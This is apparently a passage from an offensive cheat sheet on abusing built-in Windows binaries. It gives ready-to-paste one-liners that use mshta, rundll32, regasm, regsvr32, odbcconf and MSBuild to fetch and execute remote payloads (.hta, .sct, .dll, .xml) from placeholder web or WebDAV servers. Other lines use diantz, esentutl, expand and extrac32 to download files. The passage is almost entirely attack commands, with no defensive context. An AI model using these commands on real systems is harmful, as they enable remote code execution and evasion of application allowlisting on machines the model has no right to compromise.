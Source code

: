 ```
mshta http://webserver/payload.hta
```
```
mshta \\webdavserver\folder\payload.hta
```
### Rundll32
#### Running a script from remote host
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```
```
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```
### Regasm / Regsvc
#### Running a script from remote host
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```
### Regsvr32
#### Running a script from remote host
```
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```
```
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```
### Odbconf
#### Running a script from remote host
```
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```
### Msbuild
#### Running a script from remote host
```
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```
### Diantz
#### Downloading files
```
diantz.exe \\remotemachine\pathToFile\file.exe c:\destinationFolder\file.cab
```
### Esentutl
#### Downloading files
```
esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
```
### Expand
#### Downloading files
```
expand \\webdav\folder\file.bat c:\ADS\file.bat
```
### Extrac32
#### Downloading files
```
extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
```